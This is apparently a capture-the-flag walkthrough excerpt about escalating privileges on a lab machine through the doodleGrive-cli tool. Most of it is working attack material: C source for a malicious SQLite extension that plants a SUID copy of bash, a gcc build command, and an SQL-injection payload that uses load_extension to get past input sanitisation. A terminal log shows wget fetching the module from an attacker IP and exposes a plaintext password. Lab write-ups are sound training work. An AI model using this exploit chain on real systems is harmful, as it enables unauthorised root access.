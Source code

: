 ```c
#include <sqlite3ext.h> /* Do not use <sqlite3.h>! */
SQLITE_EXTENSION_INIT1

#include <stdlib.h>

#ifdef _WIN32
__declspec(dllexport)
#endif

int sqlite3_extension_init(
  sqlite3 *db, 
  char **pzErrMsg, 
  const sqlite3_api_routines *pApi
){
  SQLITE_EXTENSION_INIT2(pApi);

  system("/usr/bin/cp /bin/bash /tmp/b");
  system("/usr/bin/chmod +s /tmp/b");

  return SQLITE_OK;
}
```

Command for generate or to build it, using the make command and put the resulting binary next to the vulnerable CLI application as y.so:

```bash
$ gcc -g -fPIC -shared y.c -o y.so
```

Command for doodleGrive-cli:

```bash
"+load_extension(YourCode.so)--; 

or

"+load_extension(char(46,47,121))--"
```

To load module, we need to bypass sanitization in the activate_user_account function and then in sanitize_string. Let's go into the binary, pass the authentication step, select 5, then type "+load_extension(char(46,47,121))--".

```bash
tom@drive:~$ wget http://10.10.16.48:8081/sqlite-execute-module.so
tom@drive:~$ mv sqlite-execute-module.so y.so
tom@drive:~$ ./doodleGrive-cli
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2:
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "+load_extension(char(46,47,121))--"
Activating account for user '"+load_extension(char(46,47,121))--"'...

```